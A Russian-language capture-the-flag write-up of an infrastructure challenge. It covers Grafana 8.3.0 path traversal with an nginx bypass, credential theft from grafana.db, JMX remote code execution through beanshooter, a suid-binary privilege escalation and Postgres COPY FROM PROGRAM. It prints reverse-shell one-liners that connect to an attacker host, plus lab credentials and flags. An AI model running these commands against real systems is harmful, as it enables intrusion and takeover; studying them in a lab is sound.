


## Infra WRITEUP

### 1. Welcome

Открыв файл pcap с помощью Wireshark, отфильтруем запросы по http методу.
В basic auth найдем флаг для аутентификации.



`deteact{fd6fb7c6db39ebd2142e6d1038464ed4}`

### 2. Monitoring

На странице после логина будет открыта grafana v8.3.0. В интернете найдем, что она уязвима к LFI.
На 80 порту к которому мы подключаемся висит ngnix, который преобразует полученный адрес. Обойдем проверку добавив #

`/public/plugins/welcome/#/../../../../../../../../../etc/passwd`

Скачаем базу данных с учетными данными grafana

`/var/lib/grafana/grafana.db`

В таблице найдем учетные данные, которые подойдут к ssh на 8222 порту

`deteact:Hfgblasjdhfaasdf`

Переключимся на root с помощью sudo su и найдем флаг.

`deteact{9168a423f80518af365cd2bc282c87a0}`

### 3. klevch-user

Сканируя сеть одним из доступных адресов будет 10.200.22.4.
По адресу 10.200.22.4 c помощью nmap найдем запущенные java rmi сервисы.

```
PORT      STATE SERVICE    VERSION
1099/tcp  open  java-rmi   Java RMI
| rmi-dumpregistry:
|   refObj
|      implements java.rmi.Remote, ICalc,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @0.0.0.0:64000
|             extends
|_              java.rmi.server.RemoteObject
9010/tcp  open  java-rmi   Java RMI
| rmi-dumpregistry:
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @0.0.0.0:9010
|             extends
|_              java.rmi.server.RemoteObject
33881/tcp open  tcpwrapped
64000/tcp open  java-rmi   Java RMI
```

Последующий анализ покажет, что по порту 9010 jmxrmi возможно удаленное выполнения кода, с помощью beans и tonka
Скачаем beanshooter и следующей командой получим reverse shell

```
java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka exec 10.200.22.4 9010 "./ncat 172.31.0.4 5555 -e /bin/bash"
```

И на машине найдем user флаг.

### 4. klevch-root

Изучая файлы на машине, в bash history найдем учетные данные для mysql, однако на машине нет запущенного mysql сервера

`mysql -u developer -p mYL9h2rM`

Среди утилит, содержащих suid бит, увидим нестандартную /usr/bin/todo.

```
find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/tudo
/bin/mount
/bin/umount
/bin/ping
/bin/su
```

Запустив ее, она попросит пароль и команду, которая будет исполнена от имени root.
Следующей командой прочитаем флаг

```
./tudo mYL9h2rM "cat /root/root.txt"
deteact{b08418aee8ab7c8449500bd81b360179}
```

### 5. DBmaster-user

На машине 10.200.22.2 найдем открытый порт 25432, на котором висит postgres
Подключимся к нему с помощью дефолтной пары user/pass с паролем postgres

`psql -h 10.200.22.2 -p 25432 -U postgres`

C помощью встроенного в postgres command exec получим reverse shell.
Пробуя различные способы, подошел этот

`COPY cmd_exec FROM PROGRAM ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|ncat -u 172.31.0.4 8000 >/tmp/f’;`

Сразу увидим первый флаг в файле user.txt

`deteact{d8caf73d44507e6c57c898bc647f4bc0}`


### 6. DBmaster-root

Изучив процессы, запущенные с именем root увидим mysql сервер. Перебрав к нему пароли, подойдет пара root:admin



Т.к процесс запущен от имени root можем прочитать флаг, или настроить sys_exec для получения reverse shell

`select LOAD_FILE ("/root/root.txt");`
